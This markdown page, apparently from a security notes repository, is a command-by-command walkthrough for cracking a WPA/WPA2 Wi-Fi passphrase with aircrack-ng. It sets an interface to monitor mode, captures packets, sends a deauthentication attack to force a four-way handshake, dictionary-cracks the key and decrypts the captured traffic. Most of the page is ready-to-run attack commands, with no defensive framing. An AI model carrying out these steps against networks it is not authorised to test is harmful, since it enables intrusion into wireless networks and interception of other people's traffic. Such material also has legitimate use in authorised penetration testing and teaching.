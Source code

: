# Aircrack-ng (WPA/WPA2)

Using just the `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.
```

![four-way](../../images/fourway-handshake.png)

```bash
# Stop airodump-ng when it appears
qq

# Crack the password
sudo aircrack-ng -0 -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

![four-way](../../images/cracked-password-wpa.png)


```bash
# Check by decrypting PCAP file with found key
sudo airdecap-ng -l -p password123 -e $SSID $PCAP

# Look at the decrypted data
sudo wireshark $TAG-01-dec.cap
```

* If password is not found:
    * Make sure that a four-way handshake is captured
    * Use a better password file


## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)

